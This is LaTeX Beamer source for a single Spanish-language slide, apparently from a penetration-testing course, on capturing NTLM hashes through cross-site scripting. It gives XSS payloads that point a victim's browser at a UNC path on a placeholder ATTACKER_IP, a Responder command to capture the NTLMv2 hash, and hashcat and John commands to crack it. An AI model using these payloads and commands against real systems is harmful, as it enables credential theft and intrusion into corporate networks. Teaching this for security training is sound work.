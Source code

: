 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS --- Captura de hashes NTLM}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Mecanismo
  \item En redes Windows con IE/Edge Legacy, el navegador intenta autenticarse
  \item automáticamente con credenciales NTLM al acceder a recursos UNC.
  \item Payload XSS para forzar autenticación NTLM
  \item[] \cmdbox{\textless{}img src=\textquotedbl{}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}ATTACKER\_IP\textbackslash\{\}\textbackslash\{\}x\textquotedbl{}\textgreater{}\\{}
\textless{}script\textgreater{}document.location='\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}ATTACKER\_IP\textbackslash\{\}\textbackslash\{\}x'\textless{}/script\textgreater{}\\{}
\textless{}link rel=\textquotedbl{}stylesheet\textquotedbl{} href=\textquotedbl{}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}ATTACKER\_IP\textbackslash\{\}\textbackslash\{\}x\textquotedbl{}\textgreater{}}
  \item Captura con Responder
  \item[] \cmdbox{python3 Responder.py -I eth0 -wPv}
  \item $\rightarrow$ Captura el hash NTLMv2 enviado por el navegador de la víctima
  \item Crackeo del hash
  \item[] \cmdbox{hashcat -m 5600 ntlmv2.txt /usr/share/wordlists/rockyou.txt\\{}
john --format=netntlmv2 ntlmv2.txt --wordlist=rockyou.txt}
  \item Condiciones necesarias
  \item Víctima en red corporativa Windows con IE/Edge Legacy
  \item XSS almacenado (afecta a múltiples víctimas)
  \item Firefox y Chrome NO envían NTLM a rutas UNC externas
  \item Efectivo en entornos AD con políticas de proxy NTLM habilitadas
  \end{itemize}
\end{frame}
\end{document}
